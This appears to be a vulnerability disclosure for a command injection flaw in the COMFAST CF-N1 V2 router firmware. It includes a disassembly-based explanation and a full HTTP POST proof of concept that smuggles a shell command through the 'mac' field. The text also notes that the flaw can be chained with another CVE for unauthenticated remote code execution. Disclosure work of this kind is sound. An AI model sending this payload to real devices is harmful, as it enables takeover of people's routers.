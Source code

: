# COMFAST CF-N1 V2 V2.6.0 Command Injection in `wireless_device_dissoc`
PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wireless_device_dissoc` API (`/usr/bin/webmgnt`, function `sub_415F54`). Attackers can inject arbitrary commands via the `mac` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_415F54` function handling the `wireless_device_dissoc` configuration. Disassembly analysis shows that the user-controlled `mac` parameter is unsanitized and directly incorporated into system commands via string formatting functions before execution by `system_0`.

Key code flow:



1.  User input (including `mac` and `ifname`) is parsed via `blobmsg_parse_0` and extracted as configuration parameters.

2.  The `mac` parameter is inserted into a command string (likely related to wireless device disassociation) using unvalidated string concatenation.

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct use of unfiltered input in command construction enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc  HTTP/1.1
Host: cflogin.cn
Content-Length: 89
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"ifname":"127.0.0.1",  "mac":"; echo wireless_device_dissoc  > /www-comfast/test.txt #"}
```



*   **Notes**: The vulnerable parameter is `mac`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "wireless\_device\_dissoc", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
